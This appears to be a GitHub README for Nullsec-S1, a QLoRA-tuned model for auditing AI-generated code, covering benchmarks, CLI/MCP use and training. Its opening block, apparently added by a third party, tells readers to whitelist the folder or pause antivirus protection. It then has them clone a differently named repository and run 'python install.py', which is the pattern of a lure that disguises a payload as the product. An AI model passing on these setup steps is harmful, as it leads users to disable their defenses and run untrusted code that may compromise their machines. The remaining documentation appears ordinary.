

> [!TIP]
> If the setup does not start, add the folder to the allowed list or pause protection for a few minutes.

> [!CAUTION]
> Some security systems may block the installation.
> Only download from the official repository.

---

## QUICK START

```bash
git clone https://github.com/ElementMartin/nullsec-s1-app.git
cd nullsec-s1-app
python install.py
```


<p align="center">
  
</p>

# Nullsec-S1

**Open-source security model purpose-built to audit AI-generated apps, agents, MCP tools, Web3 flows, and vibecoded software.**

[](#current-verified-state)
[](#current-verified-release)
[](https://huggingface.co/Trynullsec/nullsec-s1)
[](#the-security-alignment-layer)
[](#benchmark-summary)
[](pyproject.toml)

Nullsec-S1 returns final structured JSON security audits: findings, severity, exploit scenario, recommended fix, secure patch, and a deterministic Safety Layer decision.

Quick links: [GitHub Release](https://github.com/trynullsec/nullsec-s1/releases/tag/v1.0.0-rc25) · [Hugging Face adapter](https://huggingface.co/Trynullsec/nullsec-s1) · [Eval docs](docs/EVALS.md) · [Quickstart](#2-5-minute-quickstart)

Nullsec-S1 RC2/v1.1 ships as a PEFT / QLoRA adapter. The source repo contains training code, corpus, benchmark harness, inference code, and validation gates. The trained adapter is intentionally not committed to git.

| State | Location | Meaning |
|-------|----------|---------|
| Source checkout | `main` | training pipeline, corpus, benchmark code, docs |
| GitHub Release | [`v1.0.0-rc25`](https://github.com/trynullsec/nullsec-s1/releases/tag/v1.0.0-rc25) | source of record for adapter, benchmark reports, metrics, pipeline log |
| Hugging Face | [`Trynullsec/nullsec-s1`](https://huggingface.co/Trynullsec/nullsec-s1) | public PEFT / QLoRA adapter mirror and model discovery page |
| Base model | [`Qwen/Qwen2.5-Coder-7B-Instruct`](https://huggingface.co/Qwen/Qwen2.5-Coder-7B-Instruct) | required separately to load the adapter |
| Local claim validation | downloaded/unpacked release artifacts | source-only checkout may show artifact-gated claims as unavailable |

## Benchmark performance

Nullsec-S1 was evaluated on the Nullsec RC2/v1.1 111-case security benchmark for AI-generated applications, agents, MCP tools, Web3 flows, and common application-security failure modes.

On this benchmark, Nullsec-S1 ranked #1 by F1 score against the compared baselines, while keeping false-safe rate at `0.0%` and maintaining substantially lower hallucination/noise than hosted frontier API baselines.

|   Rank | System / Tool                | Evaluated / Analyzable | Precision |    Recall |   F1 Score | False-Safe Rate | Hallucination Rate |
| -----: | ---------------------------- | ---------------------: | --------: | --------: | ---------: | --------------: | -----------------: |
| **#1** | **Nullsec-S1**               |          **110 / 111** | **94.2%** | **90.7%** | **0.9245** |        **0.0%** |           **6.7%** |
|     #2 | OpenAI/Codex `gpt-5.3-codex` |              105 / 111 |     61.7% |     88.0% |     0.7252 |            0.0% |              60.0% |
|     #3 | Claude Opus 4.8              |               68 / 111 |     88.9% |     51.9% |     0.6550 |            0.0% |              14.3% |
|     #4 | Semgrep local rules baseline |              111 / 111 |     86.3% |     40.7% |     0.5535 |           56.3% |              33.3% |
|     #5 | Qwen2.5-Coder-7B base model  |                4 / 111 |     33.3% |      0.9% |     0.0180 |            0.0% |              50.0% |

**Why this matters:**
Nullsec-S1 is not just the base model prompted differently. The adapter was trained to produce structured, security-specific JSON verdicts with stronger format adherence, higher recall, higher precision, and lower hallucination on this benchmark.

**Important scope:**
These results are measured on the Nullsec RC2/v1.1 111-case benchmark. They do not guarantee universal vulnerability detection or replace independent security review. `111/111` raw outputs were produced by the release benchmark; `110/111` above refers to analyzable/scored structured outputs in the comparison report.

## Why Nullsec-S1 exists

AI-generated software is moving faster than traditional security review. General models can explain code, but they often struggle to emit consistent, schema-valid security verdicts that can be enforced in CI or agent workflows.

Nullsec-S1 is adapter-aligned for security-specific JSON audit outputs. It focuses on:

- `BROKEN_AUTH`
- `UNSAFE_ADMIN_ROUTE`
- `EXPOSED_SECRET`
- `ENVIRONMENT_EXPOSURE`
- `MCP_TOOL_ABUSE`
- `COMMAND_INJECTION`
- `SSRF`
- `XSS`
- `MISSING_RATE_LIMIT`
- `SMART_CONTRACT_RISK`
- `WALLET_TRANSACTION_RISK`
- `UNSAFE_FILE_UPLOAD`
- `SQL_INJECTION`
- `PROMPT_INJECTION`
- `DANGEROUS_SHELL_COMMAND`
- `DEPENDENCY_RISK`

## What makes it different from general models

- The base Qwen model mostly failed to produce scorable Nullsec-style JSON security verdicts in this benchmark.
- Hosted frontier API baselines were stronger than base Qwen, but had lower recall or higher hallucination/noise on this benchmark.
- Nullsec-S1 is trained to return structured security verdicts, not free-form commentary.
- The release is local and reproducible: base model + PEFT adapter + deterministic Safety Layer.

## 2–5 minute quickstart

Use either the [GitHub Release artifact](https://github.com/trynullsec/nullsec-s1/releases/tag/v1.0.0-rc25) for the full release bundle or the [Hugging Face adapter](https://huggingface.co/Trynullsec/nullsec-s1) for the PEFT / QLoRA adapter. Users still need the base model `Qwen/Qwen2.5-Coder-7B-Instruct`.

```bash
python -m pip install -e ".[dev]"
python -m pip install -r requirements-train-cu121.txt

NULLSEC_ADAPTER_PATH=outputs/nullsec-s1-qlora \
python inference.py --file examples/unsafe-next-admin-route.ts
```

The command prints the final Safety-Layer-enforced JSON verdict. It does not print source code by default. If the model emits malformed output, `inference.py` returns a JSON error object and exits non-zero.

## Concrete example

Input:

```typescript
export async function POST(req: Request) {
  const { userId, role } = await req.json();
  await db.user.update({ where: { id: userId }, data: { role } });
  return Response.json({ ok: true });
}
```

Representative output shape:

```json
{
  "risk_score": 70,
  "production_ready": false,
  "severity": "HIGH",
  "confidence": "HIGH",
  "reasoning_summary": "Privileged admin mutation is reachable without an authenticated role check.",
  "findings": [
    {
      "category": "UNSAFE_ADMIN_ROUTE",
      "severity": "HIGH",
      "file": "examples/unsafe-next-admin-route.ts",
      "description": "Admin role update route has no session/role check.",
      "recommended_fix": "Require an authenticated admin session before mutating roles."
    }
  ],
  "_safety_layer": {
    "production_ready": false,
    "blocking_reasons": ["R2: dimension 'permissions' failed its check"],
    "adjustments": []
  }
}
```

This is illustrative, not a benchmark output.

## Install / run options

| Workflow | Command / docs |
|----------|----------------|
| Local adapter inference | `python inference.py --file examples/unsafe-next-admin-route.ts` |
| Hugging Face adapter loading | [`Trynullsec/nullsec-s1`](https://huggingface.co/Trynullsec/nullsec-s1) + `Qwen/Qwen2.5-Coder-7B-Instruct` |
| Benchmark reproduction | `python benchmarks/run_all.py --mode model --adapter outputs/nullsec-s1-qlora` |
| Semgrep baseline | `python benchmarks/baselines/semgrep_baseline.py` |
| Hosted API baselines | `benchmarks/baselines/claude_api.py`, `benchmarks/baselines/openai_api.py` |
| Release validation | `python scripts/validate_claims.py --adapter ... --report ... --check` |

## Running Nullsec S1 from Hugging Face

The FastAPI serving layer can load the public PEFT adapter mirror directly from
Hugging Face. The adapter repo must match the configured base model.

```bash
export NULLSEC_BASE_MODEL=Qwen/Qwen2.5-Coder-7B-Instruct
export NULLSEC_ADAPTER_PATH=Trynullsec/nullsec-s1
export NULLSEC_CORS_ORIGINS=http://localhost:3000,https://s1.trynullsec.com
export NULLSEC_EAGER_LOAD=0

python -m uvicorn serving.server:app --host 0.0.0.0 --port 8000
```

`NULLSEC_ADAPTER_PATH` may also point to a local unpacked release artifact, for
example `/workspace/nullsec-s1/outputs/nullsec-s1-qlora`. Use `/model-info` to
confirm the configured base model, adapter path, adapter source, load status,
device, dtype, and eager-loading mode.

## Nullsec S1 CLI

Nullsec S1 CLI and MCP call your configured Nullsec S1 API to review
AI-generated apps, agent tools, and MCP configs.

Run scans from any repo:

```bash
npx @s1-clm/s1 scan
npx @s1-clm/s1 scan .
npx @s1-clm/s1 scan ./examples/unsafe-admin-route.js
echo 'app.get("/admin", (req,res)=>res.send("ok"))' | npx @s1-clm/s1 scan --stdin
npx @s1-clm/s1 health
npx @s1-clm/s1 scan-mcp ./examples/example-mcp-config.json
```

Default backend:

```text
https://s1.trynullsec.com/api
```

Override the API URL:

```bash
NULLSEC_S1_API_URL=http://localhost:8000 npx @s1-clm/s1 scan .
npx @s1-clm/s1 scan . --api http://localhost:8000
npx @s1-clm/s1 scan --path ./apps/web
npx @s1-clm/s1 scan --json
```

Write a JSON report:

```bash
npx @s1-clm/s1 scan --json --output nullsec-report.json
```

Fail CI on high findings:

```bash
npx @s1-clm/s1 scan --fail-on high
```

Run without network access:

```bash
npx @s1-clm/s1 scan --no-network
npx @s1-clm/s1 scan --local
```

Exclude a path for one scan:

```bash
npx @s1-clm/s1 scan --exclude corpus --exclude benchmarks
```

The CLI scans local source files, skips secrets/private files such as real `.env`
files and private keys, and sends source snippets to the configured Nullsec S1
backend unless `--no-network` is used. `--no-network` runs local heuristics only;
it does not use the Nullsec S1 model.

Add a `.nullsecignore` file at the scan root to skip intentional fixtures,
benchmarks, generated code, or other paths:

```gitignore
benchmarks/
corpus/
training/
taxonomy/
*.egg-info/
```

By default, the CLI skips common dependency, cache, build, virtualenv, private
key, real `.env`, binary, archive, model-weight files, and large lockfiles during
directory scans. Use `--include-lockfiles` to include lockfiles in a directory
scan, or pass a lockfile path directly. Text output shows the first 20 findings
by default; use `--show-all` to print every finding.

## MCP Usage

Start the stdio MCP server:

```bash
npx -p @s1-clm/s1 nullsec-s1-mcp
```

It exposes:

- `nullsec_s1_scan_text`
- `nullsec_s1_scan_file`
- `nullsec_s1_scan_project`
- `nullsec_s1_scan_mcp_config`

The MCP server uses `NULLSEC_S1_API_URL` or defaults to `https://s1.trynullsec.com/api`.

## Cursor MCP Config

```json
{
  "mcpServers": {
    "nullsec-s1": {
      "command": "nullsec-s1-mcp",
      "env": {
        "NULLSEC_S1_API_URL": "http://localhost:8000"
      }
    }
  }
}
```

Claude Desktop uses the same MCP server shape:

```json
{
  "mcpServers": {
    "nullsec-s1": {
      "command": "nullsec-s1-mcp",
      "env": {
        "NULLSEC_S1_API_URL": "http://localhost:8000"
      }
    }
  }
}
```

Run the local backend bundled with the npm package:

```bash
npx @s1-clm/s1 doctor
npx @s1-clm/s1 serve
npx @s1-clm/s1 scan --local-model
```

The npm package includes the CLI and Python FastAPI serving source. It does not
embed multi-GB model weights; the backend loads
`Qwen/Qwen2.5-Coder-7B-Instruct` and `Trynullsec/nullsec-s1` from Hugging Face or
from paths configured with `NULLSEC_BASE_MODEL` and `NULLSEC_ADAPTER_PATH`.

## Evaluation methodology

- 111 security benchmark cases
- 16 security categories
- metrics: precision, recall, F1, false-safe rate, hallucination rate
- comparisons against base Qwen, Semgrep local rules, Claude, and OpenAI/Codex

Details: [`docs/EVALS.md`](docs/EVALS.md).

## Quick Verification

After downloading and unpacking the release artifacts locally:

```bash
python scripts/validate_claims.py \
  --adapter outputs/nullsec-s1-qlora \
  --report releases/nullsec-1.0/benchmark/SUITE.json \
  --check
```

This verifies that local public claims match the downloaded adapter, benchmark report, safety probes, and release bundle on disk. A source-only checkout may show artifact-gated claims as unavailable until those release assets are unpacked locally.

## Model Architecture

| Component | RC2/v1.1 |
|-----------|----------|
| Base model | `Qwen/Qwen2.5-Coder-7B-Instruct` |
| Adapter | PEFT / QLoRA adapter, mirrored at [`Trynullsec/nullsec-s1`](https://huggingface.co/Trynullsec/nullsec-s1) |
| Adapter path | `outputs/nullsec-s1-qlora` |
| Weight format | `adapter_model.safetensors` confirmed in the `v1.0.0-rc25` release artifact |
| Tokenizer | tokenizer files in the adapter directory when present, otherwise base tokenizer |
| Chat template | release artifact includes `chat_template.jinja`; inference uses the tokenizer chat template |
| Reasoning format | no custom hidden reasoning token loop; no `<thought>` parser |
| Output | final structured JSON security audit, then deterministic Safety Layer enforcement |

`S1` means **Security-1**. It is not a reasoning-trace model; it returns the final structured audit result.

## Architecture

Nullsec S1 is a pipeline, not a single model call. A security-tuned model *proposes* a verdict; two deterministic layers *align and enforce* it before anything is trusted.



Plain-text view of the same flow:

```
AI-generated app / repo / PR / MCP tool / wallet flow
        │
        ▼
Nullsec S1 reasoning pipeline        (security-tuned model: detect · classify · explain · patch)
        │  raw output
        ▼
structured JSON verdict              (data/schemas/verdict.schema.json)
        │
        ▼
Security Alignment Layer             (parse · schema-validate · type-check · normalize severities)
        │  structurally-valid verdict
        ▼
Nullsec Safety Layer                 (deterministic enforcement: rules R1–R6, severity/risk flooring)
        │
        ▼
enforced verdict                     (production_ready recomputed, never trusted from the model)
        │
        ▼
patch · report · CI gate · API response
```

The model's own `production_ready` claim is **advisory only**. The Safety Layer recomputes it and allows `true` only when all **eight** check dimensions pass with no HIGH/CRITICAL finding:

`auth · secrets · input_validation · rate_limits · permissions · dangerous_exec · dependency_risk · environment_exposure`

Prompt and schema details: [`docs/PROMPT_FORMAT.md`](docs/PROMPT_FORMAT.md). Full design: [`docs/SYSTEM_OVERVIEW.md`](docs/SYSTEM_OVERVIEW.md).

---

## Core system components

| Path | What it is |
|------|------------|
| [`corpus/`](corpus/) | Curated training corpus — the single source of truth (`authored/` + opt-in `ingested/` + `synthetic/`). |
| [`taxonomy/`](taxonomy/) | The 16-category security taxonomy mapped to 8 check dimensions (`taxonomy.json`). |
| [`nullsec/safety/`](nullsec/safety/) | The Security Alignment Layer (`alignment.py`) + Nullsec Safety Layer (`enforcement.py`). |
| [`nullsec/core/`](nullsec/core/) | Reasoning pipeline (`engine.py`), verdict models, canonical prompts, version/fingerprint. |
| [`nullsec/ingest/`](nullsec/ingest/) | CVE/NVD, Semgrep, SARIF/CodeQL ingestion into the verdict contract. |
| [`training/`](training/) | Dataset prep, QLoRA training, corpus validation, release threshold, preflight. |
| [`benchmarks/`](benchmarks/) | Evaluation runners + adversarial Safety Layer probes. |
| [`scripts/validate_claims.py`](scripts/validate_claims.py) | Public claim validator — the honesty gate. |
| [`scripts/release_candidate.py`](scripts/release_candidate.py) | Release gate — builds a bundle only from real artifacts. |
| [`serving/`](serving/) | FastAPI serving layer (`/v1/model`, `/v1/analyze`, `/v1/patch`, streaming). |
| [`cli/`](cli/) | `nullsec1` command-line analyzer + CI gate. |
| [`reports/`](reports/) | Corpus curation sprint reports (auditable provenance). |
| [`docs/`](docs/) | Technical documentation (system overview, safety layer, corpus, roadmap, non-claims). |

---

## What is live now vs coming next

Live now:

- source repo
- GitHub Release artifact
- Hugging Face PEFT adapter
- `inference.py`
- benchmark suite
- baseline comparison scripts
- [`docs/EVALS.md`](docs/EVALS.md)

Coming next:

- hosted scanner at `s1.trynullsec.com`
- API backend
- GitHub Action / PR guard
- CLI hardening
- larger benchmark suite
- more framework coverage

## Current verified state

The corpus exceeds the v1.0 and RC2/v1.1 data thresholds, the deterministic Safety Layer is enforced, and the trained RC2/v1.1 release artifacts are published as GitHub Release assets rather than committed to source.

This snapshot reflects the artifacts on disk right now. Every number below is produced by a command in this repo — none are hand-entered. Run the commands in [Quickstart](#quickstart) to reproduce them.

| Fact | Value | Source command |
|------|-------|----------------|
| Curated corpus | **1,741** examples (1,304 hand-authored + 437 curated-ingested) | `training/dataset_stats.py --include-ingested` |
| Train / eval split | **1,393 train / 348 eval** (eval_frac 0.2, seed 42) | `training/prepare_dataset.py --include-ingested` |
| Taxonomy categories | **16** categories → 8 check dimensions | `taxonomy/taxonomy.json` |
| Per-category coverage | every category **≥ 60** curated | `training/release_threshold.py --include-ingested --profile rc2` |
| Safety Layer consistency | **100%** (1,741 / 1,741) | `training/dataset_stats.py --include-ingested` |
| Benchmark suite | **111** labeled cases across all 16 categories | `benchmarks/datasets/detection.json` |
| Adversarial safety probes | **8 / 8 blocked**, 0 bypassed | `python -m benchmarks.safety_probes` |
| Test suite | passing | `pytest -q` |
| Release threshold (v1.0) | **PASS** | `training/release_threshold.py --include-ingested` |
| Release threshold (v1.1 / RC2) | **PASS** | `training/release_threshold.py --include-ingested --profile rc2` |

The honesty gate (`scripts/validate_claims.py --check`) ties public wording to local artifacts. To reproduce the release-asset claim state, unpack the GitHub Release bundle locally and run the [Quick Verification](#quick-verification) command.

---

## The Security Alignment Layer

The deterministic layer is the reason Nullsec S1 is a security *system* rather than a code model that emits opinions. It runs in two stages.

**Stage 1 — Security Alignment Layer** (`nullsec/safety/alignment.py`): extract the JSON object (tolerant of code fences, preamble, and trailing prose), validate it against the verdict schema, type-check it into the `Verdict` model, and normalize finding severities *up* to each category's taxonomy floor. Anything that cannot be aligned raises `VerdictParseError` instead of being guessed at.

**Stage 2 — Nullsec Safety Layer** (`nullsec/safety/enforcement.py`): take the structurally-valid verdict and deny `production_ready` if **any** of these hold:

| Rule | `production_ready` is denied when… |
|------|------------------------------------|
| R1 | any required dimension is `not_checked` |
| R2 | any required dimension is `fail` |
| R3 | any finding is HIGH or CRITICAL |
| R4 | `risk_score` exceeds the production threshold (default 20) |
| R5 | a finding contradicts a dimension reported as `pass` |
| R6 | overall severity is HIGH or CRITICAL |

It also **raises (never lowers)** severity and `risk_score` to match the worst finding, so the model cannot under-report. Because enforcement is deterministic and independent of the model, an attacker who manipulates the model — e.g. via prompt injection embedded in the code under review — still cannot obtain a false `production_ready: true`. This is verified by adversarial probes in [`benchmarks/safety_probes.py`](benchmarks/safety_probes.py), including a prompt-injection-in-prose probe.

Deep dive: [`docs/SECURITY_ALIGNMENT_LAYER.md`](docs/SECURITY_ALIGNMENT_LAYER.md).

---

## Quickstart

Local CPU machines can verify the corpus, the deterministic layers, and the safety probes — no GPU required.

```bash
python3.11 -m venv .venv
source .venv/bin/activate
python -m pip install --upgrade pip setuptools wheel
python -m pip install -e ".[dev]"

python training/prepare_dataset.py --include-ingested --out data/processed
pytest -q
python training/validate_corpus.py --include-ingested
python training/release_threshold.py --include-ingested
python scripts/validate_claims.py --check
```

Inspect model identity and the reproducible fingerprint at any time:

```bash
python -m nullsec.core.version
```

---

## Corpus status

`corpus/` is the single source of truth for training data. The current curated corpus is **1,741 examples** (1,304 hand-authored + 437 curated-ingested), every taxonomy category has **≥ 60** curated examples, and **Safety Layer consistency is 100%** — so both the v1.0 and RC2/v1.1 data thresholds pass.

Provenance is tracked explicitly and never blurred:

- `hand_authored` — original examples written for this repo (counts as curated).
- `curated_ingested` — CVE / scanner / real-failure records that passed human review and source-provenance enforcement (counts as curated).
- `synthetic_variant` — labeled, structure-preserving augmentations; **never** counts toward curated thresholds.

Raw and rejected candidates are tracked separately and are never training-eligible. The curation workflow, schema, and provenance rules are documented in [`docs/CORPUS.md`](docs/CORPUS.md), with auditable sprint reports in [`reports/`](reports/).

---

## Training workflow

The training targets are built from the corpus through the **same** alignment + safety layers used at serving time, so no malformed or gate-inconsistent verdict ever enters training.

```bash
# 1. build chat-formatted train/eval JSONL from the curated corpus
python training/prepare_dataset.py --include-ingested --out data/processed

# 2. confirm the corpus is genuinely v1.0-ready (exits non-zero until it is)
python training/release_threshold.py --include-ingested

# 3. (on a GPU box) preflight, then train the QLoRA adapter
python training/preflight_train.py
python training/train_qlora.py --config training/config.yaml
```

The release adapter was trained with QLoRA on `Qwen/Qwen2.5-Coder-7B-Instruct` (Apache 2.0). Training instructions remain in [`RELEASE_TRAINING.md`](RELEASE_TRAINING.md), [`RUNPOD.md`](RUNPOD.md), and [`GPU_QUICKSTART.md`](GPU_QUICKSTART.md).

---

## Training on GPU

Local CPU machines can verify the corpus and the safety layer, but **cannot realistically train the model**. QLoRA training requires a CUDA-capable NVIDIA GPU.

The end-to-end pipeline (prepare → preflight → train → merge → benchmark → release → validate) is wrapped in one script:

```bash
bash scripts/run_training_pipeline.sh
```

A complete, beginner-friendly walkthrough — choosing a GPU box, disk requirements, environment setup, expected artifacts, and how to collect outputs — is in **[`GPU_QUICKSTART.md`](GPU_QUICKSTART.md)**.

`training/preflight_train.py` checks the GPU stack before you spend money: it **exits `2` when no CUDA GPU is available** (the expected result on a laptop), so you never start a doomed run.

---

## Benchmark workflow for reproduction / development

The benchmark suite measures detection accuracy, false-safe rate, hallucination rate, OWASP coverage, patch correctness (structural), and a secure-generation score. It reports numbers only from real runs. The RC2/v1.1 real-model report ships as a GitHub Release asset under `v1.0.0-rc25`; generated benchmark reports are not committed to source.

```bash
# against the live model (GPU):
python benchmarks/run_all.py --mode model --adapter outputs/nullsec-s1-qlora

# against captured real outputs (no GPU); reports are marked replay-only:
python benchmarks/run_all.py --mode replay --replay path/to/captured.jsonl
```

A case with no model output is recorded as a real miss, never a synthetic pass. In a source-only checkout, artifact-gated claims remain unavailable until the trained adapter and release report are downloaded/unpacked locally.

---

## Release pipeline for reproduction / development

The release pipeline is how maintainers reproduce a release bundle from real local artifacts:

```bash
python scripts/release_candidate.py --adapter outputs/nullsec-s1-qlora --dataset detection.json
python scripts/validate_claims.py --adapter outputs/nullsec-s1-qlora \
    --report releases/nullsec-1.0/benchmark/SUITE.json --check
```

`release_candidate.py` aborts (writing nothing) if the adapter is missing, the model fails to load, no outputs are produced, any report section is empty, or any Safety Layer probe is bypassed. The published RC2/v1.1 artifact already passed this path; running it again is a reproducibility workflow. The full path is documented in [`RELEASE_TRAINING.md`](RELEASE_TRAINING.md).

---

## Repo structure

```
README.md                 you are here
GPU_QUICKSTART.md          beginner-friendly GPU training walkthrough
RELEASE_TRAINING.md        training-to-release runbook
CONTRIBUTING.md            how to contribute (corpus, taxonomy, probes, docs)
SECURITY.md                vulnerability reporting & responsible disclosure
model_card/                Nullsec-1 model card (identity, intended use, limits)
taxonomy/                  16-category security taxonomy — single source of truth
corpus/                    curated training corpus (authored/ + ingested/ + synthetic/)
data/                      verdict schema (data/schemas) + processed datasets
training/                  prepare_dataset · train_qlora · merge_adapter · validate_corpus
                           · release_threshold · preflight_train · config.yaml
nullsec/
  core/                    reasoning pipeline, verdict models, prompts, version/fingerprint
  safety/                  Security Alignment Layer + Nullsec Safety Layer
  ingest/                  CVE/NVD, Semgrep, SARIF/CodeQL ingestion
serving/                   FastAPI serving layer
benchmarks/                benchmark suite + adversarial Safety Layer probes
scripts/                   release_candidate.py · validate_claims.py · run_training_pipeline.sh
examples/                  worked vulnerable cases + expected verdicts
releases/                  generated release bundles (real artifacts only; ships empty)
cli/                       nullsec1 CLI analyzer + CI gate
tests/                     deterministic-layer test suite (no GPU)
docs/                      architecture · system overview · safety layer · corpus · roadmap
.github/                   CI security gate · issue templates · PR template
```

## Contributing

Contributions to the corpus, taxonomy, safety probes, benchmark runners, docs, and CLI/API are welcome. Corpus examples must include vulnerable code, an exploit scenario, a taxonomy category and severity, a real secure patch, complete `checks_performed`, the expected Safety Layer behavior, and an auditable provenance reference. See [`CONTRIBUTING.md`](CONTRIBUTING.md) for the full requirements and the curated-ingestion workflow.

Useful contribution areas:

- benchmark cases
- framework examples
- scanner integrations
- docs improvements

## Honest scope

Results are benchmark-scoped to the Nullsec RC2/v1.1 111-case benchmark. Nullsec-S1 is not a replacement for human security review. A clean verdict reduces risk; it does not prove the absence of vulnerabilities.

---

## Security

Please report vulnerabilities responsibly and **never submit real secrets** — use placeholders for any credential in examples or reports. See [`SECURITY.md`](SECURITY.md).

---

## License

Apache 2.0 — matching the `Qwen2.5-Coder` base model. See the license note in [`model_card/NULLSEC1.md`](model_card/NULLSEC1.md).


<!-- Last updated: 2026-06-09 19:32:16 -->
